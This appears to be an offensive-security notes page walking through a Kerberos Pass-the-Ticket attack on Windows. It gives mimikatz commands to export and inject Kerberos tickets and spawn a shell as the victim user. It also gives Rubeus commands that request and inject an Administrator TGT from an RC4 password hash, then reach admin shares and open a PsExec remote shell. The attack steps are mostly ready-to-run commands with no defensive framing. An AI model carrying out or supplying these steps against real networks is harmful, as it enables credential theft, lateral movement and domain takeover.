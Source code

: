 # Pass The Ticket

## <mark style="color:red;">Pass The Ticket</mark>

**In a pass the ticket attack access is gained to a resource of a system (for example the administrative shares) using a kerberos ticket that was generated or obtained from a compromised machine (TGT or TGS)**

{% hint style="warning" %}
PtT affects all windows platforms relying on kerberos.
{% endhint %}

run these in mimikatz:

```
kerberos::list
kerberos::list /export
```

we have the tickets that were saved inside the directory where we had the mimikatz executable.

![](<../../../../.gitbook/assets/image (198).png>)

We go back to the mimikatz terminal. Here, we pass the ticket with the help of ptt module inside the Kerberos module followed by the name of the ticket that we want to pass.to perform the actions as the user that we passed the ticket for we decided to get a cmd as that user. This can be accomplished using the misc::cmd command as shown in the image given below.

```
kerberos::ptt ticket.kirbi
misc::cmd
```

![](<../../../../.gitbook/assets/image (195).png>)

## <mark style="color:red;">Rubeus</mark>

[rubeus](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries) is a C# toolset for raw Kerberos interaction and abuses.

we will use extract the tickets using Rubeus. This can be done with the help of the asktgt module. Although it is not so sneaky method it gets the work done. We need the domain name, User, Password Hash. When used normally will give the base64 encoded TGT ticket. But Let’s Pass the Ticket as well in the same step

```
Rubeus.exe asktgt /domain:ignite.local /user:Administrator /rc4: 32196b56ffe6f45e294117b91a83bf38 /ptt
```

or pass the ticket with kirbi file:

```
Rubeus.exe ptt /ticket:ticket.kirbi
```

now we have the ticket for user administrator and we can access shares:

```
dir \\overloadDC\\secret_shares
```

or get shell access:

```
PsExec.exe \\192.168.1.105 cmd.exe
```
